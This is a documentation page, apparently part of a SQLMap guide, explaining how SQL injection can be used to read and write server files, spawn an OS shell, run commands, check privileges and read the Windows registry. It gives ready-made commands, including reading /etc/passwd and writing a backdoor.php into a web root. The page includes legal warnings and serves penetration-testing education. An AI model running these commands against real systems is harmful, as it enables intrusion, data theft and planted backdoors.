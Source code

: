 ```yaml
---
title: File System Access
description: Learn how to access the file system through SQL injection vulnerabilities using SQLMap
---
```


# File System Access

SQLMap can leverage SQL injection vulnerabilities to interact with the underlying file system of the database server. This capability varies depending on the database management system (DBMS) and the privileges of the database user.

## Reading Files (`--file-read`)

To read files from the database server's file system:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-read="/etc/passwd"
```

This attempts to read the specified file from the server's file system. The file content will be stored in the SQLMap output directory.

<Note title="Database Support">
File system access capabilities vary by DBMS:
- MySQL: Requires FILE privilege
- PostgreSQL: Limited to files in the database directory
- Microsoft SQL Server: Requires appropriate permissions
- Oracle: Requires specific privileges
</Note>

## Writing Files (`--file-write` and `--file-dest`)

To write files to the database server's file system:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="local_file.php" --file-dest="/var/www/html/backdoor.php"
```

This command:
1. Takes a local file (`local_file.php`)
2. Uploads it to the target server
3. Saves it at the specified destination path (`/var/www/html/backdoor.php`)

<Note title="Warning">
Writing files to a server without proper authorization is illegal in most jurisdictions. This functionality should only be used in authorized penetration testing scenarios.
</Note>

## OS Shell Access (`--os-shell`)

SQLMap can attempt to gain operating system shell access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell
```

This tries to leverage the SQL injection vulnerability to spawn a shell on the target system. SQLMap will attempt various techniques based on the DBMS:

- For MySQL: Uses `INTO OUTFILE` to write a web shell
- For Microsoft SQL Server: Uses `xp_cmdshell`
- For PostgreSQL: Uses `COPY TO/FROM` or UDF injection
- For Oracle: Uses Java or external table features

## OS Command Execution (`--os-cmd`)

To execute a single operating system command:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="id"
```

This executes the specified command on the target system and returns the output.

## Privilege Escalation

Some database systems allow for privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --privileges --is-dba
```

This checks if the current database user has administrative privileges. If not, SQLMap can sometimes attempt privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc
```

## Registry Access (Windows)

On Windows systems, SQLMap can access the registry:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --reg-read --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
```

This reads the specified registry key from a Windows target system.

<Note title="Ethical Considerations">
File system access capabilities should only be used in authorized security testing scenarios. Unauthorized access to systems is illegal and unethical.
</Note>
